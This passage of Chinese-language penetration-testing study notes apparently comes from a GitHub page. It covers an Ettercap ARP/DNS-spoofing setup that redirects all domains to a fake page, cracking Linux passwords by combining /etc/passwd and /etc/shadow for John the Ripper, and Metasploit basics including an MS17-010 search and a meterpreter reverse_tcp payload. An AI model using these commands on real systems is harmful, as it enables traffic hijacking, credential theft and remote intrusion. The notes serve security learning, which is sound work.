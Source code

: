 \*			A			192.168.1.9

\*			PTR		192.168.1.9

\*是域名，这里是指所有域名，A和PTR是记录，192.168.1.9是解析地址

ettercap -G打开该工具图形化界面

攻击流程：

1. 准备欺骗网页，放在/var/www/html/目录下，并启动apache2服务。
2. 配置ettercap工具的配置文件errer.dns。
3. 设置ettercap的配置：启动ettercap—>设置eth0网卡—>扫描主机—>将网关与主机添加到target选项，网关加到target1，目标主机加到target2—>在mitm标签中选择在ARP欺骗—>选择plugins下Manage plugins的DNS spoof欺骗模块—>开始欺骗

## John the Ripper的使用

John全称 John the Ripper 是一个快速密码破解工具，用于在已知密文的情况下尝试解出明文，支持目前大多数加密算法，支持多种不同类型的系统架构。目前主要用于破解不够牢固的Unit/Linux 系统密码。

Linux中用户文件存储在/etc/passwd文件中，密码文件存储在/etc/shadow文件中，一般采用sha512加密算法存储密码。

unshadow命令可以将passwd和shadow组合成一个文件

unshadow /etc/passwd /etc/shadow > test.txt

使用john test.txt进行破解

## MSF漏洞高攻击框架

MSF全称The Metasloit framework，这是一个免费的可以下载的框架，通过它可以很容易的获取开发面对计算机的软件漏洞，实施攻击。它本身附带数百个已知软件漏洞的专业级攻击工具。在渗透中经常使用这个攻击框架，尤其是在内网渗透。

- exploit：利用漏洞进行攻击动作的模块
- auxiliary：负责执行信息收集、扫描、嗅探、指纹识别、口令猜测等功能的辅助模块
- post：后渗透模块
- payload：成功执行exploit模块后，真正在目标系统执行代码或指令
- encoder：对payload加密的模块
- nop：提高payload的稳定性模块
- evasion：用于创建免杀毒软件的木马

使用msfconsole进入msf控制台

命令：

- search：查找漏洞模块。eg.   search ms17-010    查找ms17-010漏洞模块
- use：使用查找到的模块。eg.    use 1	使用search出来的1模块
- info：查看模块的相关介绍信息。
- ​		其中模块基础配置中required中是yes的选项是必须要配置的参数。
- set：配置漏洞的参数。eg.    set rhosts 192.168.1.2	配置该漏洞的rhosts参数
- run：运行该漏洞。exploit和run相同。
- ​		结果前边有绿色的“+”说明对方的电脑存在该漏洞。
- set payload windows/x64/meterpreter/reverse_tcp：设定payload为meterpreter这种高级的shell，并设定为reverse_tcp反弹shell。
- show options：查看模块的配置参数。

meterpretershell相关命令：
